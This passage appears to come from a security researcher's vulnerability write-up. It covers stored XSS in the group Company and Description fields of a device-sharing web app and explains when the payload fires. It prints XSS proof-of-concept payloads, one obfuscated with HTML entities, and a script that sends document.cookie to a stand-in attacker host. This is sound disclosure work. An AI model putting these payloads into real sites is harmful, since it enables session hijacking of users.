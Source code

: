 ![](https://boschko.ca/content/images/2022/05/image-66.png)

The vulnerable fields are `Company` and `Description`. The payloads I used as a proof of concept are the following:

```
<img src=x onerror=confirm(document.cookie)>

or

<img src=x onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x64;&#x6f;&#x63;&#x75;&#x6d;&#x65;&#x6e;&#x74;&#46;&#x63;&#x6f;&#x6f;&#x6b;&#x69;&#x65;&#x29;>
```

Once the group is saved anytime the user either logs in or switches regions (Asia Pacific, America, Europe), logs in, or switched organication the XSS will trigger as seen below.

![](https://boschko.ca/content/images/2022/05/image-57.png)

This occurs because there is a `listQuery` key that checks for `{"pageNum":"","pageSize":"","name":"","company":"","description":""}` and our XSS is stored and referenced within `company` name & `description` which is how the XSS triggers.

![](https://boschko.ca/content/images/2022/05/image-60.png)

Can this be used maliciously? Unfortunately not with regular user accounts. With enterprise accounts yes, as we'll see later. Here's why. Realistically the only way to leverage this would be to share a device with a malicious named `company` and `description` fields with another user.

Even with the patch for the PII and User Enumeration vulnerability above, it is still possible to enumerate `userID`'s which is exactly what we need to send a shared device invitation to users. Below is an example request.

![](https://boschko.ca/content/images/2022/05/image-67.png)

An attacker with a regular user account would create a group with a `company` or `description` name like `<script type=“text/javascript”>document.location=“http://x.x.x.x:xxxx/?c=“+document.cookie;</script>`. Then invite a victim to that group. When the victim would login the attacker would able to steal their sessions. Unfortunately with a regular user account, this isn't possible.

If we share the device from `boschko`(attacker) to `boschko1`(victim). Here's how the chain would go. After `boschko` creates the malicious group and sends an invitation to `boschko1` he's done. The victim `boschko1` would login and receive the invite from `boschko` as seen below.

![](https://boschko.ca/content/images/2022/05/image-59.png)

However, when we sign-out and back into `boschko1` no XSS triggered, why? It's because there is a difference between being a member of a shared group (a group shared by another user with you) and being the owner (you made the group shared and created) as can be seen below.

![](https://boschko.ca/content/images/2022/10/image-108.png)![](https://boschko.ca/content/images/2022/05/image-65.png)

As seen above, a user of a shared group won't have the malicious fields of the group translated to their "frontend".

